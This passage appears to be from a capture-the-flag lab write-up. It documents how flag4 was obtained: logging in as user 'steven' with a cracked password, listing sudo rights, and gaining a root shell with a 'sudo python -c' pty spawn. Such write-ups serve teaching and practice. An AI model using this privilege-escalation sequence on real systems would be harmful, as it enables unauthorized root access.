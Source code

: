         >#### note: Flag4 also appears in this exploit.

    ---

    **flag4.txt:**  `715dea6c055b9fe3337544932f2941ce`

    - **CWE-284** Improper Access Control

        Privilege on the system is obtained in this step after cracking the hashed password of a privileged user found in the SQL database. This allows the execution of a Python Script that leads to root access to the system.
    
        The user Steven has python root access. This led to a root privilege escalation.

        Exploit:
        
        1. Steven has the privilege to run python language as a root user
            ```   
                su steven
                Password: pink84
                sudo -l  
            ```
        
            ![8](/Resources/Images/1/16.png)

        2. Python Script
        
            sudo python -c 'import pty;pty.spawn("/bin/bash")' | **Flag4**: cat /root/flag4.txt
            ---|---
            ![9](/Resources/Images/1/17.png) |   ![10](/Resources/Images/1/19.png)

---